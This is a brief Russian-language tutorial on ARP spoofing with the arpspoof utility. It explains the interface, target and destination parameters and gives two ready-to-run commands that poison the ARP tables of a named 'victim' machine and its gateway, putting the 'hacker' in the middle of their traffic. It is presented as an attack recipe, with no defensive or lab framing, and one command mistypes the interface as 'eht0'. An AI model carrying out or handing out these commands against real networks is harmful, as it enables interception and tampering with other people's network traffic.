 Для реализации ARP spoofing используется утилита arpspoof:

$ arpspoof -i <interface> -t <target_ip> <destination_ip>

где

interface - интерфейс, который смотрит в локальную сеть, в которой находятся шлюз и жертва;
target_ip - IP-адрес машины жертвы, на которой нужно изменить arp-таблицу;
destination_ip - IP-адрес, который должен ассоциироваться с MAC-адресом текущей машины в arp-таблице жертвы;

Например, шлюз имеет IP-адрес 192.168.1.1, а жертва - 192.168.1.3. Открываем две вкладки терминала. В первой вкладке вводим команду:

$ arpspoof -i eht0 -t 192.168.1.3 192.168.1.1

Во второй вкладке вводим команду:

$ arpspoof -i eth0 -t 192.168.1.1 192.168.1.3

Теперь в arp-таблицах жертвы и шлюза для соответствующих IP-адресов прописаны MAC-адреса хакера.

Всё!!!
